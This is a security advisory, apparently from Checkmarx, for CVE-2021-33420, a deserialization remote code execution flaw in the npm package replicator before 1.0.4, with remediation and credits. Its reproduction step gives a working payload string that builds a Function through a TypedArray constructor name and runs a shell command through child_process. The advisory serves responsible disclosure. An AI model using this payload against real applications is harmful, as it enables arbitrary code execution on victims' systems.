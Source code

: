 ```yaml
---
title: Deserialization RCE attack in replicator
date: 2021-05-17
tags:
	- "npm"
	- "deserialization"
	- "rce"
advisory: true
origin: https://advisory.checkmarx.net/advisory/CX-2021-4787/
cves:
	- "CVE-2021-33420"
---
```

## Summary
Affected versions of replicator npm package are vulnerable to a deserialization RCE via the TypedArrays objects. replicator doesn't verify the object type given when deserializing TypedArrays and thus letting an attacker create arbitrary objects.

## Product
replicator before 1.0.4.

## Impact
In case an untrusted data get deserialized, an attacker could achieve RCE.

## Steps to reproduce
```
replicator.decode('[{"@t":"[[TypedArray]]","data":{"ctorName":"setTimeout","arr":​{"@t":"[[TypedArray]]","data":{"ctorName":"Function","arr":"process.mainModule.require(\'child_process\').exec(\'calc\');"}}​}}]')
```

### Expected result:
The command in the exec function will be run, in this case aimed for a Windows machine a calculator will pop up.

## Remediation
Update replicator dependency to 1.0.4 or above.

## Credit
This issue was discovered and reported by Checkmarx SCA Security Researcher [Yaniv Nizry](https://twitter.com/ynizry).

## Resources
1. [Pull request](https://github.com/inikulin/replicator/pull/17)
2. [Issue](https://github.com/inikulin/replicator/issues/16)
3. [Commit](https://github.com/inikulin/replicator/commit/2c626242fb4a118855262c64b5731b2ce98e521b)
4. [Blog](https://checkmarx.com/blog/npm-replicator-remote-code-execution-deserialization)
